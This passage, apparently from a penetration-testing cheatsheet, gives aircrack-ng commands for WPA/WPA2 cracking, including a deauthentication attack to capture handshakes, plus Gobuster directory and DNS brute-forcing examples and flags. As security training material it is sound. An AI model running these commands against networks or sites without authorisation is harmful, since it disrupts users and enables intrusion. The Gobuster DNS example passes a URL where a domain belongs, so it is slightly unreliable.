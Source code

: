 ```bash
# Monitor mode
airmon-ng start wlan0

# Capture packets
airodump-ng wlan0mon

# Target specific network
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth attack (to capture handshake)
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack WPA/WPA2 with wordlist
aircrack-ng -w wordlist.txt capture-01.cap
```

**Key tools in suite:**
- airmon-ng: Enable/disable monitor mode
- airodump-ng: Capture packets and show wireless networks
- aireplay-ng: Inject packets (deauth, fake auth)
- aircrack-ng: Crack WEP/WPA keys

See detailed cheatsheet [here](https://cheatography.com/itnetsec/cheat-sheets/aircrack-ng-suite/)
## Gobuster
[Gobuster](https://github.com/OJ/gobuster) is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names
### Syntax
`gobuster -w wordlist.txt`

### Examples:  
Standard scan  
`gobuster dir -u http://172.162.39.86 -w /usr/share/wordlists/dirb/megalist.txt` 

DNS subdomain enumeration  
`gobuster dns -d http://172.162.39.86 -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

### A list of options
`dir` Directory/file brute forcing mode  
`dns` DNS bruteforcing mode

### A list of most useful flags:
`-u` (url) – full target URL (including scheme), or base domain name.  
`-w` (wordlist) – path to the wordlist used for brute forcing (use – for stdin).  
`-a` (user agent string) – specify a user agent string to send in the request header.  
`-e` (print) - Print the full URLs in your console  
`-o` (file) – specify a file name to write the output to.  
`-x` (extensions) – list of extensions to check for, if any.  
`-P` (password) – HTTP Authorization password (Basic Auth only, prompted if missing).  
`-U` (username) – HTTP Authorization username (Basic Auth only).  
`-c <http cookies>` (cookie) - Specify a cookie for simulating your auth  
`-s` (status-codes) - Set status codes that should be interpreted as valid  
`-k` (ssl) - Skip ssl certificate   
`-H` (HTTP) - Specify HTTP header  
`-t` (threads) - Number of concurrent threads (default: 10)  
`-v` (verbose) - Verbose output  
`-q` (quiet) - Quiet output  
`-n` (no-redirect) - Do not follow redirects  
`-r` (recursive) - Recursively brute force subdirectories  

